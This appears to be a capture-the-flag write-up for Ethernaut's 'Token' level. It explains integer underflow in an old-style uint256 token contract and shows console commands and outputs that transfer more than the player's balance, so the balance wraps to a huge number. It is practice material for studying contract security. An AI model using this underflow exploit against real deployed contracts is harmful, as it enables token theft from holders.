 # Level 5: Token

### Wargame

The goal of this level is for you to hack the basic token contract below.
You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

Things that might help:
* What is an odometer?

### Key Insights
* Integer Overflow

Under integer overflow, a `uint256` value, upon exceeding its maximum capacity (2^256 - 1), wraps around to 0 or a small positive number. Conversely, integer underflow occurs when a `uint256` value drops below 0, causing it to wrap around to its maximum possible value.

### Attack Steps
On the Ethernaut web page, enter the develp tool console. 
1. check my balance on this contract.
    ```bash
    > mybalance = await contract.balanceOf(player)
    > mybalance.toString()
    '20'

    > total = await contract.totalSupply()
    > total.toString()
    '21000000'
    ```

2. We now use a normal transfer command. We'll see the balance after this transfer.
    ```bash
    > await contract.transfer(0, 1)
    > mybalance = await contract.balanceOf(player)
    > mybalance.toString()
    '19'
    ```

3. We are now using a special transfer amount to attack this contract. You may notice that this amount exceeds my current balance.
 Once the transfer is complete, I will have a significant number of tokens. Now, I'm a super rich man!!
    ```bash
    > await contract.transfer(instance, 20)
    > mybalance = await contract.balanceOf(player)
    > mybalance.toString()
    '115792089237316195423570985008687907853269984665640564039457584007913129639935'
    ```
